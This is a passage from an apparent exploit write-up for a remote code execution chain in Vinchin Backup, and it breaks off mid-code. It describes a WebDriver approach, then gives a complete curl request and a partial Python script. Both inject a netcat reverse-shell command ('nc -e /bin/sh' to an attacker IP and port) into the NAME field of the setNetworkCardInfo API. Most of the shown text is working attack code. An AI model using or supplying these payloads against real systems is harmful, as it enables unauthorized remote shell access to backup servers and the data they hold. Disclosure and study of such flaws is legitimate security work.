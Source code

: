 ### **Exploitation Methods**:

#### A. Webdriver Chrome Simulation:

Given that the form data is encrypted using **JSEncrypt** and JavaScript is responsible for all XHR requests, executing a direct exploit becomes a complex task. A simpler, more intuitive method to simulate this exploit involves using a **Chrome WebDriver**. This technique simulates natural interactions with the web interface, allowing for circumvention of encryption and request management barriers.

For an effective demonstration of this method, refer to the provided image:


![Vinchin Exploit Demonstration via WebDriver](/vinchin-backup-rce-chain-2024/poc.png)

#### B. `curl` Method (using setNetworkCardInfo as example):

For more extensive and automated exploitation scenarios, the `curl` method can be invaluable. While it might be more intricate than the WebDriver approach, it holds merit in scenarios requiring mass automation. The detailed `curl` exploit method is as follows:

```bash
curl -i -s -k -X POST \
-H 'Host: [IP]' \
-H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0' \
-H 'Accept: */*' \
-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
-H 'Origin: [URL]' \
-H 'Connection: close' \
-b 'BackupSystem=[COOKIE_VALUE]' \
--data 'p={"nodeuuid":"[NODEUUID_VALUE]","NAME":"; nc -e /bin/sh [ATTACKER_IP] [ATTACKER_PORT]","IPADDR":"[IP]","NETMASK":"","GATEWAY":"","DNS":"","PREFIX":""}' \
[URL]/api/?m=8&f=setNetworkCardInfo
```

- Here an example how you could do the exploit in Python in this way :

```python
import requests
import json

cookies = {
    'BackupSystem': 'v108v9nv0akfqkgehl7h9e130f',
}

headers = {
    'Host': '192.168.1.23',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0',
    'Accept': '*/*',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Origin': 'https://192.168.1.23',
    'Connection': 'close',
}

payload = {
    "nodeuuid": "87de2178-38f0-45c7-8a06-b524b6c5940f",
    "NAME": "; /bin/nc -e /bin/bash 192.168.1.5 1338",
    "IPADDR": "192.168.1.23",
    "NETMASK": "",
    "GATEWAY": "",
    "DNS": "",
    "PREFIX": ""
}

data = {
    'm': '8',
```